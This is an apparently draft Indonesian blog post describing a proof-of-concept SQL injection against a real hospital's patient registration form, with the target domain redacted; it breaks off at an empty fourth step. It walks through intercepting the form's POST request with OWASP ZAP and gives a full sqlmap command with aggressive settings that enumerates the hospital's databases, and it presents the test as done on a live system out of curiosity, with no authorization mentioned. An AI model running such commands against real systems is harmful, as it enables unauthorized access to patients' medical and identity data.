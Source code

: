 ```yaml
---
title: "SQL Injection Form Pendaftaran Rumah Sakit"
date: 2023-12-28T13:39:57+07:00
draft: true
---
```

Saat akan daftar disalah satu rumah sakit tiba tiba kepikiran bisa gak sih form iin di inject?
# POC
1. Buka form pendaftaran, isikan dengan random data
![Form login](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/1.png)

2. Intercept post data dengan OWASP ZAP
![POST data](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/2.png)

3.  Setelah itu coba dengan sqlmap 
```
sqlmap -u https://redacted.com/index.php/CProsesDaftar/getpasien" --data="nomrm=Halo&tgllahir=2025-05-07&nik=9827982798279827&search=nomrm&tglperiksa=2023-12-07" --level 5 --risk 3 --banner --ignore-code 401 --technique=B --flush --dbs --threads 2
```

![Database name](https://raw.githubusercontent.com/bembenk18/Images/main/SQLI-Rumah_Sakit/3.png)


4.
